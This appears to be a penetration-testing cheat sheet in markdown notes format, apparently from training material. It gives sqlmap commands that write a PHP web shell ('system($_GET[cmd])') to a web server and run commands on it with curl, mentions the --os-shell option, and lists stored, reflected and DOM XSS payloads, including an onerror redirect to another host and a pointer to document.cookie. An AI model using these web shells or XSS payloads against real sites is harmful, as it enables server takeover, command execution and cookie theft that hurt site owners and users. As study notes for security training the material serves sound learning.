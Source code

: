 **Shells Again**
```
#Write a shell file
echo '<?php system($_GET["cmd"]); ?>' > shell.php

#Transfer file to location on SQL webserver
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

#Connect to shell session
curl http://www.example.com/shell.php?cmd=ls+-la

```
More simply just run `--os-shell`. There may be a problem with the specific type of SQLi used. For best results use an error based SQLi with `--technique=E`


![[../../cheatsheet-sql-injection-fundamentals.pdf]]

![[../../Sqlmap_Essentials_Module_Cheat_Sheet.pdf]]

---
## Cross Site Scripting (XSS)
**Stored (Persistent)**
*This is when XSS code is ran and stored server-side*
Basic XSS identification payload
```
# Probably avoid this, as it is often detected and permitted
<script>alert(window.origin)</script>
```
Other better ones are 
```
<script>print()</script>
<plaintext>
<script>alert(window.origin)</script>
<img src=x onerror="windows.location.href="http://<otherwebpage>/">
```
To verify code has been ran successfully:
1. See output in browser window (popup, new text )
2. Check inspect elements and see if the payload has been inserted into the webpage
For a specific value in a page like a `cookie`, use `document.cookie`

For more see [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) and the [PayloadBox](https://github.com/payloadbox/xss-payload-list) 

**Reflected (Non-Persistent)**
*This is when XSS code is ran server-side and not stored*

**DOM**
*This is when XSS code is ran directly into the browser and not stored*
```
<img src="" onerror=alert(window.origin)>
```
It's the same type of stuff, it just functions a little different.

